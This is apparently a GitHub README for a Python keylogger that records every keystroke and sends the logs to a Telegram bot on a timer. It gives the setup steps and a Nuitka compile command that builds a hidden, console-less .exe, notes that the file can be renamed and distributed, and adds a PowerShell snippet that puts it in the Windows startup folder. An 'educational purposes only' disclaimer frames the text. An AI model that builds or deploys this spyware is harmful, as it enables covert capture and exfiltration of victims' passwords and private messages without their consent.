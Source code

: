 
# Keylogger with Telegram Bot Integration (Nuitka-Compiled)

> ⚠️ **Disclaimer**: This project is for **educational purposes only**. Unauthorized use of keyloggers is illegal and unethical. Do **not** use or distribute this software without **explicit permission** from all affected parties.

---

## 📌 Features

- 🔐 Captures all keyboard input.
- 📤 Sends logs to a Telegram bot at configurable intervals.
- 🛠️ Built in Python, compiled with **Nuitka** to `.exe` for performance and obfuscation.
- 🧙 Runs silently in the background without popping up a terminal window.

---

## ⚙️ Requirements

- Python 3.8 – 3.12
- [Telegram Bot Token](https://core.telegram.org/bots#botfather)
- Telegram Chat ID

Python packages:

```bash
pip install pynput requests
```

Compiler:

```bash
pip install nuitka
```

---

## 📁 Setup

1. Clone this repository or download the files.
2. Open the `keylogger.py` file and set:

```python
TELEGRAM_BOT_TOKEN = "your_bot_token"
TELEGRAM_CHAT_ID = "your_chat_id"
LOG_INTERVAL = 1800  # Log sending interval in seconds (default: 30 minutes)
```

3. Your main file should be named `keylogger.py`.

---

## 🚀 Running the Script

### Run with Python (for testing)

```bash
python keylogger.py
```

---

## 🧙‍♂️ Compile to a Stealth `.exe` using Nuitka

Use the following command to compile your Python script to a **single `.exe`** that **runs in the background** (no terminal pop-up):

```bash
C:\Users\devil\AppData\Roaming\Python\Python312\Scripts\nuitka --standalone --onefile --windows-disable-console keylogger.py
```

The executable will be located in the `/keylogger.dist/` folder. You can rename and distribute it as needed.

> 🧠 Tip: You can also add `--remove-output` and `--nofollow-imports` for a cleaner, smaller output.

---

## 📦 Optional: Add to Startup (Windows)

To make the program run at startup, you can move the `.exe` to the startup folder:

```powershell
$shortcut = "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\keylogger.lnk"
$target = "C:\Path\To\Your\keylogger.exe"
$ws = New-Object -ComObject WScript.Shell
$sc = $ws.CreateShortcut($shortcut)
$sc.TargetPath = $target
$sc.Save()
```

---

## ❗ Disclaimer

This software is intended **solely for ethical, educational, and authorized testing** purposes. Using this software on systems or individuals without proper consent is a **criminal offense**. The creator holds **no liability** for any misuse or damage caused by this software.

---

